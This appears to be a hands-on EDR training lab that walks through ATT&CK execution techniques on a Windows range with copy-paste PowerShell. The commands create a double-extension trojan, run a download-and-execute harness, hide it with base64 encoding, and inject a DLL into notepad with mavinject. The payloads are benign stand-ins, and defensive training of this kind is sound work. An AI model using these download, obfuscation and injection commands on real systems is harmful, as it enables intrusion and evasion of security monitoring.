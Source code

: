 ```yaml
---
Title: ATT&CK - Execution Phase
Description: Demonstrate the execution phase of an attack
Author: Chris Gerritz, Datto
Created: 04/07/2025
Achievements:
Duration: 20
Range:
- Windows
Applications:
- Terminal (Command prompt)
- PowerShell
- Datto EDR
- SysInternals
- Office
- Adobe Reader
External:
- attack.mitre.org
- allitshop.infocyte.com
- live.sysinternals.com/psexec.exe
- github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll
---
```


## Description

The purpose of these labs is to introduce post-compromise attack behaviors and EDR defenses. 

Lab 2 will demonstrate a post-compromise execution phase of an attack where initial exploits have already granted privileged access to the target system and now you need to execute some commands and download/execute additional malware payloads.

Typically, the 'Initial Execution' will be a very small command called a download harness and this is executed in one of two ways:
1. Via an exploit of a vulnerable application
2. Via an internal user through social engineering

In order to grant the attacker additional functionality such as recon, lateral movement or ransomware staging, they will need to inject a more feature rich malware type called a Remote Access Tool (aka a "RAT") following that initial execution. This follow on execution will utilize administrative commands which we can detect during behavioral monitoring.

---

## Objectives
<!--
- List all objectives for this lab
- Need at least three objectives
- Use blooms taxonomy verbs: KNOWLEDGE,UNDERSTAND, APPLY, ANALYZE, EVALUATE, CREATE
- https://www.teachthought.com/critical-thinking/blooms-taxonomy-verbs-2/
-->
1. Understand the initial steps of an attack that uses staged malware
2. Demonstrate some execution techniques to get initial trojans or follow-on malware payloads to run

## Requirements

|                  |                             |
|------------------|-----------------------------|
| **Range**        | Windows |
| **Applications** | All applications needed     |
| **Needed Files** | None |

-----

## Instructions

Open a new terminal using `c:\Users\Public\rat.exe` or you can use the same terminal from the previous lab. You will be copying and pasting the lab commands into this terminal session.  If you close this window, remember to re-open `c:\Users\Public\rat.exe` before running any of the labs.

w> All labs require you to be running as an administrator. 



### 1. Double Extension Execution
> *Initial execution is often through a social engineering attack. This first technique hides an executable as a pdf file. The hope is the user will download this file and double click it to see what it is. When they do, our trojan will execute and give us a (simulated) callback where we can tell it to run additional commands.*

Execute a file with a **Double Extension**. 
- MITRE ATT&CK Technique: [ATT&CK T1204.002 - Execution - User Execution: Malicious File](https://attack.mitre.org/techniques/T1204/002)
- MITRE ATT&CK Technique: [ATT&CK T1036.007 - Evasion - Masquerading: Double File Extension](https://attack.mitre.org/techniques/T1036/007)
- Copy and paste this command into the terminal:
	```PowerShell
	# Double Extension
	Write-Host -ForegroundColor Cyan "Initiating a T1204.002 - Malicious File Extension with Double Extension evasion"
	$MalwarePath = "C:\Windows\System32\calc.exe"
	$TrojanPath = "$Env:USERPROFILE\Desktop\freemoney.pdf.exe"

	Copy-Item -Path $MalwarePath -Destination $TrojanPath -Force
	Get-Item $TrojanPath
	Write-Host -ForegroundColor Cyan "Go ahead and double click freemoney.pdf on your desktop"
	```
- Next, go to your desktop and double click freemoney.pdf and see what happens.


### 2. Powershell Download Harness
> *The following method is used by some malware to download and execute an additional file using Powershell. This is the simplest way to do this and often used legitimatly so the technique can blend the malicious action in with existing noise produced by admins.*

Execute a simple **Powershell Download Harness**. 
- MITRE ATT&CK Technique: [ATT&CK T1059.001 - Execution - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/001)
- Copy and paste this command into the terminal:
	```PowerShell
	# Powershell Download Hardness
	Write-Host -ForegroundColor Cyan "Initiating a T1059.001 - Powershell Download Harness"
	$url = "https://live.sysinternals.com/psexec.exe"
	$filename = "$env:TEMP\bad.exe"

	$cmd = "(new-object System.Net.WebClient).DownloadFile('$url', '$filename'); Start-Sleep -m $n"
	Write-Host -ForegroundColor Cyan "Running Command:"
	Write-Host -ForegroundColor Green "Powershell.exe -command '$cmd'"
	Powershell.exe -command $cmd

	Get-Item $filename
	```


### 3. Hidden & Encoded Powershell Download Harness
> *Most attackers aren't going to want you seeing the command or the powershell window poping up so they will use obfuscation and stealth techniques with this.*

Execute it again, but this time as a **Hidden & Encoded Powershell Download Harness**. 
- MITRE ATT&CK Technique: [ATT&CK T1059.001 - Execution - Command and Scripting Interpreter](https://attack.mitre.org/techniques/T1059/001)
- MITRE ATT&CK Technique: [ATT&CK T1027 - Evasion - Obfuscated Files or Information](https://attack.mitre.org/techniques/T1027)
- Copy and paste this command into the terminal:
```PowerShell
# Encoded and Hidden Powershell Download Harness
Write-Host -ForegroundColor Cyan "Initiating a T1059.001 - Powershell Encoded and hidden Download Harness"
$EncodedCommand = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($Cmd)
)
Write-Host -ForegroundColor Cyan "Running Command:"
Write-Host -ForegroundColor Green "powershell.exe -win H -NoP -e '$EncodedCommand'"
powershell.exe -win H -NoP -e $EncodedCommand
```

w> This will hide your browser, you may need to open a new browser after performing this command.


### 4. System Binary Proxy Execution
> *One method to evade antivirus is to force a legitimate system application to run the attacker's code/malware on the attacker's behalf. A common method is to inject the malware's code as a library into the memory of a system process.*
>
> *The method we'll demonstrate today is a Microsoft utility called `mavinject`.  Mavinject.exe is the **Microsoft Application Virtualization Injector**, a Windows utility that can inject code into external processes as part of Microsoft Application Virtualization (App-V). This utility is installed by default on most modern Windows versions but shouldn't really be used unless App-V is in use.*

1. Use mavinject.exe to perform a **System Binary Proxy Execution** technique
- [ATT&CK T1218.013 - Defense Evasion - Signed Binary Proxy Execution](https://attack.mitre.org/techniques/T1218/013)
- [ATT&CK T1055.001 - Defense Evasion - Process Injection: Dynamic-link Library Injection](https://attack.mitre.org/techniques/T1055/001)
- Copy and paste this command into the terminal:
```PowerShell
# Signed Binary Proxy Execution w/ mavinject.exe
Write-Host -ForegroundColor Cyan "Initiating a T1218.013 - Signed Binary Proxy Execution using mavinject.exe"
$malwareURL = "https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1055.001/src/x64/T1055.001.dll"
# start and inject into notepad or calc
$targetProcessName = "notepad"
$cmd = @"
	`$targetProcessId = (Start-Process $targetProcessName -PassThru).id
	Invoke-WebRequest $malwareURL -OutFile "$env:temp\T1055.001.dll"
	mavinject `$targetProcessId /INJECTRUNNING $env:temp\T1055.001.dll
	Start-Sleep -m $n
"@
powershell.exe -nop -command $cmd
```

s> If you are successful, the code we are injecting will force notepad to run a popup that says "Locked and Loaded".
